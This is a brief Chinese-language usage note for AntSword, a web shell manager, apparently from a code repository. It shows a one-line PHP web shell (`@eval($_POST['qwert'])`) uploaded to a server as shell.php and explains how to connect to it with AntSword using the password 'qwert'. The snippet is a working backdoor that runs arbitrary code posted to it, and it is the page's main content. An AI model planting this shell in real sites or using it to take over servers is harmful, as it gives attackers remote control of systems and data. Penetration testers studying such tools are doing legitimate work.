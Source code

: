 
# 中国蚁剑

源码：https://github.com/AntSwordProject/antSword

安装：https://www.yuque.com/antswordproject/antsword/srruro

简单使用：

加入已经在php的服务器上上传了一段脚本如`shell.php`：
```php
<?php @eval($_POST['qwert']);?>
```

并且可以通过浏览器访问，如：http://192.168.1.2/shell.php

将这个链接加到蚁剑上，输入密码`qwert`即可连接。


